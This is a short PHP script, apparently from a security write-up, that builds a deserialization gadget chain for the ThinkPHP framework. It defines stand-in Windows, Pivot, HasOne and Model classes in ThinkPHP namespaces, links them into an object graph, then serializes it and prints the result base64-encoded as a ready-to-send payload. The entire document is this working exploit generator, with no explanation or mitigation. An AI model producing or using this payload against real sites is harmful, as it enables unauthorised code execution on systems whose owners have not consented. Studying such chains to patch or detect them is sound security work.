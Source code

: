 ```php=

namespace think\model\relation;
use think\console\Output;
use think\db\Query;

class HasOne {
    public $model;
    protected $selfRelation;
    protected $parent;
    protected $query;
    protected $bindAttr = [];
    public function __construct() {
	$this->query = new Query("xx", 'think\console\Output');
	$this->model = false;
	$this->selfRelation = false;
	$this->bindAttr = ["xx" => "xx"];
    }}

namespace think\model;
use think\console\Output;
use think\model\relation\HasOne;

abstract class Model {
}

class Pivot extends Model {
    public $parent;
    protected $append = [];
    protected $data = [];
    protected $error;
    protected $model;

    function __construct() {
	$this->parent = new Output();
	$this->error = new HasOne();
	$this->model = "test";
	$this->append = ["test" => "getError"];
	$this->data = ["panrent" => "true"];
    }
}

namespace think\process\pipes;
use think\model\Pivot;

class Windows {
    private $files = [];
    public function __construct() {
	$this->files=[new Pivot()];
    }
}

$obj = new Windows();
$payload = serialize($obj);
echo base64_encode($payload);
```
